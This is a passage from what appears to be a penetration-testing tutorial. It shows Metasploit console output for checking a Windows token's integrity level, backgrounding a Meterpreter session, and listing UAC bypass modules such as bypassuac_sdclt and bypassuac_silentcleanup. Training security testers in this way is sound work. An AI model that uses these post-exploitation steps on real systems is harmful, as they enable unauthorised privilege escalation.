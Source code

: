 ```

PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Get-NtTokenIntegrityLevel
Medium
```

> Listing 67 - Reviewing integrity level

Listing 67 shows that we are currently performing operations in the context of integrity level *Medium*.

Next, let's background the currently active channel and session to search for and leverage UAC post-exploitation modules.

```
PS C:\Windows\system32> ^Z
Background channel 1? [y/N]  y

meterpreter > bg
[*] Backgrounding session 9...
```

> Listing 68 - Background channel and session

Now let's **search** for UAC bypass modules.

```
msf6 exploit(multi/handler) > search UAC

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
-   ----                                                   ---------------  ----       -----  -----------
   0   post/windows/manage/sticky_keys                                         normal     No     Sticky Keys Persistance Module
   1   exploit/windows/local/cve_2022_26904_superprofile      2022-03-17       excellent  Yes    User Profile Arbitrary Junction Creation Local Privilege Elevation
   2   exploit/windows/local/bypassuac_windows_store_filesys  2019-08-22       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe)
   3   exploit/windows/local/bypassuac_windows_store_reg      2019-02-19       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe) and Registry
   ...
   11  exploit/windows/local/bypassuac_sdclt                  2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Shell Open Registry Key)
   12  exploit/windows/local/bypassuac_silentcleanup          2019-02-24       excellent  No     Windows Escalate UAC Protection Bypass (Via SilentCleanup)
   ...
```

> Listing 69 - Search for UAC bypass modules
